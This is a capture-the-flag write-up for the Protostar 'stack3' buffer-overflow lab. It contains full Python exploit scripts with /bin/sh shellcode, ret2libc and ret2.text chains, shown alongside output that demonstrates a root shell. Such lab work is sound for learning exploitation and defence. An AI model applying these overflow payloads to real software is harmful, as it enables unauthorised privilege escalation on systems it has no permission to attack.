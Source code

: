 # Stack3

## Solution
Quick disassembly to see the offsets of the variables stored in the binary.
```
[0x08048370]> pdf @main
            ; DATA XREF from entry0 @ 0x8048387
┌ 65: int main (int argc, char **argv, char **envp);
│           ; var uint32_t var_60h @ esp+0x4
│           ; var char *s @ esp+0x1c
│           ; var uint32_t var_8h @ esp+0x5c
```

```
>>> 0x5c - 0x1c
64
```

```
user@protostar:/opt/protostar/bin$ python -c 'print "A"*64+"\x24\x84\x04\x08"' | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

## Shells

### Classic
Since the program will always call the address stored in `var_8h` we can't overwrite %eip like we
usually would. So in this case we're going to use `var_8h` in the same way we would %eip, and use
it to redirect process execution.

Since we already know the offset to `var_8h` we don't need to calculate it's offset.

```py
import struct

off = 64

pad = 'A' * off

buf = ''
buf += '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9'
buf += '\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89'
buf += '\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

nop = '\x90' * 0x80

ret = struct.pack('I', 0xbffff7a8 + 0x80)

print pad + ret + nop + buf
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ ./stack3 < /tmp/pwn
calling function pointer, jumping to 0xbffff828
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### Ret2libc
Read stack0 to see how we calculated the appropriate offsets for `libc`, `system` and `/bin/sh`
required for this ret2libc exploit.

This one is a little different, as I couldn't seem to be able to call `libc` directly. So instead
I modified `var_8h` redirect back to the `ret` instruction, and execute as normal after the call.

```py
import struct

off1 = 64
pad1 = 'A' * off1

call = struct.pack('I', 0x08048478)

off2 = 12
pad2 = 'A' * off2

bin_sh = struct.pack('I', 0xb7fb63bf)
system = struct.pack('I', 0xb7ecffb0)

print pad1 + call + pad2 + system + 'AAAA' + bin_sh
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ (python /tmp/pwn.py; cat) | ./stack3
calling function pointer, jumping to 0x08048478
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### Ret2.text to Shellcode 
```
➜  stack git:(master) ✗ msfelfscan -s -f stack3
0x080484e7   edi ebp ret
0x080483f2   ebx ebp ret
0x08048517   ebx ebp ret
```

```py
import struct

off = 64

pad = 'A' * off

buf = ''
buf += '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9'
buf += '\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89'
buf += '\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

nop = '\x90' * 0x80

ret = struct.pack('I', 0x08048478)
ret += 'A' * 12

ret += struct.pack('I', 0x080484e7)

ret += 'AAAA'                              # POP
ret += 'AAAA'                              # POP
ret += struct.pack('I', 0xbffff7c4 + 0x80) # RET

print pad + ret + nop + buf
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ python /tmp/pwn.py | ./stack3
calling function pointer, jumping to 0x08048478
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### Ret2.text to Libc
```py
import struct

system = struct.pack('I', 0xb7ecffb0)
bin_sh = struct.pack('I', 0xb7e97000 + 0x11f3bf)

off = 64

pad = 'A' * off

buf = ''
buf += '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9'
buf += '\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89'
buf += '\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

nop = '\x90' * 0x80

ret = struct.pack('I', 0x08048478)
ret += 'A' * 12

ret += struct.pack('I', 0x080484e7)

ret += 'AAAA' # POP
ret += 'AAAA' # POP
ret += system # RET

print pad + ret + 'AAAA' + bin_sh
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ (python /tmp/pwn.py; cat) | ./stack3
calling function pointer, jumping to 0x08048478
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

